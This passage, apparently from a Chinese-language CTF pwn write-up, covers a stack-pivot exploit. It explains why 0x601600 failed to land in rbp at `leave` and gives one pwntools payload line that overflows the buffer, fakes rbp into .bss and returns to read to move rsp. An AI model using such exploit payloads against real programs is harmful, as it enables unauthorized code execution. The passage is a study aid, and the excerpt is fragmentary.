 回头看一下 leave 处 `mov esp,ebp; pop ebp;`​，应该是 leave 前 0x60

1600 未能放入 rbp 导致的

[![](assets/1701606597-3a56de29af806f518eada3b52cdd3dac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170249-eaa9dd1a-845e-1.png)

[![](assets/1701606597-b1861dd4b19a7ccaa10fb368b0691916.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170254-edb2df84-845e-1.png)

再构造一次 read，并调整 rsp

```plain
pl = b'a'*0x20+p64(bss6+0x20)+p64(read) #2
p.send(pl)
```

这里 bss6 所加的就是 buf 的偏移
